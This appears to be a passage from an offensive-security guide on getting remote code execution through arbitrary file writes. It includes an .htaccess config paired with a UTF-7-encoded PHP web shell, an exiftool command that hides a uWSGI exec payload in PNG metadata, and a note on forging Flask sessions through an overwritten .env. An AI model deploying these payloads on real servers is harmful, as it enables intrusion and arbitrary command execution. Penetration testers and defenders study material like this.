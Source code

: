 <pre class="language-apacheconf" data-title=".htaccess"><code class="lang-apacheconf"><strong># Allow .asp files to be served as PHP
</strong>AddType application/x-httpd-php .asp
<strong># Set the encoding to UTF-7
</strong>php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
</code></pre>

{% code title="shell.asp" %}
```
+ADw-?php+ACA-system(+ACQ-+AF8-GET+AFs-+ACI-cmd+ACI-+AF0-)+ACA-?+AD4-
```
{% endcode %}

The repository below shows some more techniques using `.htaccess` file to get RCE:

{% embed url="https://github.com/wireghoul/htshells" %}
Repository containing various tricks to get RCE using .htaccess files alone
{% endembed %}

### uWSGI magic variables (dirty)

{% embed url="https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html" %}
Overwriting `uwsgi.ini` files containing syntax to execute shell commands
{% endembed %}

Using the `@()` syntax, you can define uWSGI configuration anywhere in a file that executes system commands when loaded. Similar to the authorized keys, this can be put into PNG metadata, for example, which will include it in a valid PNG image:

```bash
exiftool -Comment=$'\n[uwsgi]\nfoo = @(exec://id > /tmp/pwned)\n' example.png
```

Payloads can be locally tested using the following command:

```bash
uwsgi --ini example.png
```

When written to the server, it may take some time before the payload is executed. If the server is configured to auto-reload using the `py-auto-reload =` configuration variable it may happen automatically, but otherwise, you need to either force a restart by crashing the application or just wait until a server admin does it for you.

### Environment and Settings

Overwriting the settings of an application can have a significant effect on security. As the above showed, there are often many sensitive options and you just have to find them in the documentation or with some educated guessing.&#x20;

One example is the `.env` file which often replaces environment variables for an application. If a [flask.md](../frameworks/flask.md "mention") webserver uses this file to get its `SECRET_KEY` variable, for example, you will be able to forge any session as explained in [#forging-session](../frameworks/flask.md#forging-session "mention") with your known key.
